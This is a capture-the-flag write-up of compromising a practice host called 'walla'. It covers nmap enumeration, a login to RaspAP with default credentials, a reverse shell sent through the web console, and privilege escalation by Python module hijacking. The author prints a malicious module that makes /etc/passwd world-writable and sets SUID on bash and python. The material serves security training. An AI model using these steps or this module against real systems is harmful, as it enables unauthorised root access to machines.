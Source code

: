 First Enumeration With nmap 

`nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn  <IP>`

```
# Nmap 7.93 scan initiated Fri Jan  6 08:07:43 2023 as: nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn 192.168.79.97
Increasing send delay for 192.168.79.97 from 0 to 5 due to 214 out of 712 dropped probes since last increase.
Increasing send delay for 192.168.79.97 from 5 to 10 due to 46 out of 152 dropped probes since last increase.
Increasing send delay for 192.168.79.97 from 10 to 20 due to 14 out of 45 dropped probes since last increase.
Warning: 192.168.79.97 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.79.97
Host is up (0.16s latency).
Not shown: 39026 filtered tcp ports (no-response), 26504 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
8091/tcp open  jamlink

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Jan  6 08:09:15 2023 -- 1 IP address (1 host up) scanned in 92.33 seconds
```

now we know what ports are open, let run nmap default scripts to know what services ar running on those ports.

`nmap -sC -sV -oN normal.tcp -p 23,25,22,53,8091 -Pn <IP>`

```
# Nmap 7.93 scan initiated Fri Jan  6 08:10:40 2023 as: nmap -sC -sV -oN normal.tcp -p 23,25,22,53,8091 -Pn 192.168.79.97
Nmap scan report for 192.168.79.97
Host is up (0.19s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp   open  telnet     Linux telnetd
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp   open  tcpwrapped
8091/tcp open  http       lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.53
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan  6 08:11:04 2023 -- 1 IP address (1 host up) scanned in 24.49 seconds
```

Now we know what services are running on those port, first let's enumerate port 8091.

![image](https://user-images.githubusercontent.com/87468669/211068286-f4c48163-5beb-44c1-9f1c-8b2f7ff9e7fd.png)
 
it it asking us to login, let's use curl to check what's running on this websevice.

![image](https://user-images.githubusercontent.com/87468669/211068936-1583b72b-108f-4551-a5a9-f117f9b8ee73.png)

Looks like it is running a service name `RaspAP`, let's search online for default creds.

![image](https://user-images.githubusercontent.com/87468669/211069199-f02b1e3e-513d-4c4c-9bbf-4244fa454a36.png)

Found a default cred `admin:secret`

![image](https://user-images.githubusercontent.com/87468669/211069345-88932bbc-b738-4130-a6e4-a88c373bc07d.png)

Bull's eye 🤓, we logged in. let's play around.

![image](https://user-images.githubusercontent.com/87468669/211069579-be40def2-801c-4403-990e-5cfe6878ebe6.png)

Found a web console that excutes commands, guess that's our way in, let's get a reverse shell. 

![image](https://user-images.githubusercontent.com/87468669/211069906-8cb6c95b-ea8e-4feb-8ac9-9537df762b90.png)

ncat listener ready👀...

![image](https://user-images.githubusercontent.com/87468669/211070134-1adc8ba4-2bb6-4bd0-a58d-fa5634a55ec7.png)

reverse shell payload sent.

![image](https://user-images.githubusercontent.com/87468669/211070307-d8a506aa-a9f7-40d0-a4b5-7cd09f866dc2.png)

And we got a reverse shell. let's escalate privs.

```
www-data@walla:/var/www/html/includes$ sudo -l
Matching Defaults entries for www-data on walla:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
www-data@walla:/var/www/html/includes$
```

I checked for suid, there was not any, so i did `sudo -l` and so the commands we can run as root without passowrd.

![image](https://user-images.githubusercontent.com/87468669/211071666-b71d424e-66a0-4aa1-85ce-1a28127ee507.png)

running th command `sudo /usr/bin/python /home/walter/wifi_reset.py` got an error stating a module is not found, let's create a malicious python module named wificontroller.py... this vuln is called python module hijacking.

```
import os
 
def stop(text,value):
        os.system("chmod 777 /etc/passwd");
 
def reset(text,value):
        os.system("chmod +s /bin/bash");
 
def start(text,value):
        os.system("chmod +s /bin/python");
```

crafted a malicious python module, saved it as wificontroller.py. What this code those is to create an suid binary so we can abuse and get root or write to the /etc/passwd file.

![image](https://user-images.githubusercontent.com/87468669/211074260-3f6329b4-9576-450b-b380-cfbc0e837b1c.png)

ran the command again, and we have multiple ways to root. but i'm choosing the bash suid.

![image](https://user-images.githubusercontent.com/87468669/211074596-9f29528c-0694-49fd-abef-a368ce9337cc.png)

We got root!!!🤠


